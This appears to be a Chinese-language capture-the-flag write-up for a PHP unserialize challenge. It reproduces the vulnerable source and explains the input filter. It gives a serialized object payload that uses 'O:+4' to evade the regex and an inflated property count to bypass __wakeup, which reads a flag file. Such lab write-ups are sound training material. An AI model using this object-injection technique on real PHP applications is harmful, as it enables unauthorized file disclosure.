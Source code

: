 ## DifficultyTwo

### Web_php_unserialize

1. 查看页面源代码

   ```php
   <?php 
   class Demo { 
       private $file = 'index.php';
       public function __construct($file) { 
           $this->file = $file; 
       }
       function __destruct() { 
           echo @highlight_file($this->file, true); 
       }
       function __wakeup() { 
           if ($this->file != 'index.php') { 
               //the secret is in the fl4g.php
               $this->file = 'index.php'; 
           } 
       } 
   }
   if (isset($_GET['var'])) { 
       $var = base64_decode($_GET['var']); 
       if (preg_match('/[oc]:\d+:/i', $var)) { 
           die('stop hacking!'); 
       } else {
           @unserialize($var); 
       } 
   } else { 
       highlight_file("index.php"); 
   } 
   ?>
   ```
2. 将序列化的Demo对象base64编码后传给var，base64解码先通过正则表达式匹配，然后反序列化，调用wakeup（wakeup会将读取的fl4g.php替换为index.php），对象销毁时显示文件内容，文件名为fl4g.php
3. 正则表达式过滤：/[oc]:\d+:/i

   * /***/   ：php中的正则表达式需要用斜杠包裹
   * [oc]    :   此字符为o或c
   * :         :   单纯冒号，无特殊意义
   * \d     :匹配一个数字
   * +：上一个字符可以出现多次
   * /i  ：大小写字母都在匹配范围内
4. 第一次：payload

   O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}
5. 通过在4前面多一个+绕过正则表达式，通过将1改为2绕过wakeup

   payload：O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}

注意：这道题序列化后的字符串有特殊字符显示不出来，如果将序列化的字符串复制后在文本编辑器更改，将会失败，应用函数str_replace函数将第一次的payload修改
